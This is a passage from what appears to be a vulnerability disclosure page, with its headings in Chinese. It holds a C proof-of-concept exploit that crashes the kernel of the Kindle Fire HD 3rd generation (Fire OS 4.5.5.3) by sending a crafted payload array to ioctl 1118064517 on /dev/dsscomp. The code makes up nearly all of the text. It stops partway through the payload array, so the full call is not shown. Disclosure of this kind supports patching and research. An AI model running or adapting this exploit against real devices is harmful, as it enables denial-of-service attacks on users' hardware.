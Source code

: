 <languages  />

漏洞影響
--------

    Fire OS 4.5.5.3

POC
---

    /*
     * This is poc of Kindle Fire HD 3rd
     * A bug in the ioctl interface of device file /dev/dsscomp causes the system crash via IOCTL 1118064517.
     * Related buggy struct name is dsscomp_setup_dispc_data.
     * This Poc should run with permission to do ioctl on /dev/dsscomp.
     *
     * The fowllwing is kmsg of kernel crash infomation:
     *
     *
     */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/dsscomp";
    static command = 1118064517;

    int main(int argc, char **argv, char **env) {
        unsigned int payload[] = {
        0xffffffff,
        0x00000003,
        0x5d200040,
        0x79900008,
        0x8f5928bd,
        0x78b02422,
        0x00000000,
        0xffffffff,
        0xf4c50400,
        0x007fffff,
        0x8499f562,
        0xffff0400,
        0x001b131d,
        0x60818210,
        0x00000007,
        0xffffffff,
        0x00000000,
        0x9da9041c,
        0xcd980400,
        0x001f03f4,
        0x00000007,
        0x2a34003f,
        0x7c80d8f3,
        0x63102627,
        0xc73643a8,
        0xa28f0665,
        0x00000000,
        0x689e57b4,
        0x01ff0008,
        0x5e7324b1,
        0xae3b003f,
        0x0b174d86,
        0x00000400,
        0x21ffff37,
        0xceb367a4,